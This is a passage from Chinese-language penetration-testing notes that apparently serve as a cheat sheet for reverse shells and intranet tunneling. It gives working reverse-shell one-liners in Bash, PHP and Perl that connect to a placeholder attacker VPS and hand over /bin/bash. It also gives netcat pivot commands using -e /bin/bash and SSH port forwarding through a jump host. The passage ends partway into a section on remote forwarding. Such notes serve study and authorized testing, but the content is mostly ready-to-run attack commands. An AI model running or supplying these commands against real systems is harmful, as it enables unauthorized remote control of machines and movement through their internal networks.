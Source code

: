    2. Bash反弹Shell

      命令：

      ```bash
      bash -i >& /dev/tcp/HOST/PORT 0>&1
      ```

      > 注意该命令在ZSH下不可用，必须使用Bash

   3. PHP反弹Shell

      一句话：

      ```php
      php -r '$sock=fsockopen("YourVPSIP", 9999);exec("/bin/bash -i <&3 >&3 2>&3");'
      ```

   4. Perl反弹Shell

      ```perl
      perl -e 'use Socket;$i="YourVPSIP";$p=9999;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
      ```


##### 内网代理

VPS监听：`nc -lvp 9999`

目标机器上启动nc：`nc -lvp 3333 -e /bin/bash`

代理机器：`nc -v VPSIp 9999 -c "nc -v TargetIP 3333"`

#### Powercat

就是一个NC的Powershell版本。

使用前需要`Import-Module ./powercat.ps1`

具体使用方法可以看：[besimorhino/powercat: netshell features all in version 2 powershell (github.com)](https://github.com/besimorhino/powercat)

### 应用层隧道技术

#### SSH协议

内网中，基本所有的Linux/UNIX服务器和网络设备都支持SSH。一般情况下SSH允许通过防火墙和边界设备，所以经常被攻击者利用。此外，SSH是加密的，所以很难分辨合法的SSH会话和隧道。

1. 本地转发

   VPS上执行：

   ```bash
   ssh -CfNg -L 3389:TargetIP:3389 root@IP
   ```

   其中第一个3389是VPS的绑定端口，TargetIP是希望访问的目标主机IP，IP是跳板机IP。会要求输入密码，输入后就会开始转发。

2. 远程转发
